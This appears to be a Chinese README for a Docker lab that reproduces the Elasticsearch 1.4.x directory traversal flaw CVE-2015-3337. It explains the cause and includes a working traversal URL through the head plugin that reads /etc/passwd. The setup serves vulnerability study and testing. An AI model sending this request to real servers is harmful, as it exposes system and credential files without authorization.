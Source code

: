 # ElasticSearch 目录穿越漏洞（CVE-2015-3337）测试环境

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.4

影响版本：1.4.5以下/1.5.2以下

## 原理

在安装了具有“site”功能的插件以后，插件目录使用`../`即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

## 测试环境

编译及运行测试环境

```
docker-compose build
docker-compose up -d
```

测试环境默认安装了一个插件：`elasticsearch-head`，主页在此：https://github.com/mobz/elasticsearch-head

访问`http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd`读取任意文件（不要在浏览器访问）：

![](1.png)

## head插件

head插件提供了elasticsearch的前端页面，访问 `http://your-ip:9200/_plugin/head/` 即可看到，不多说了。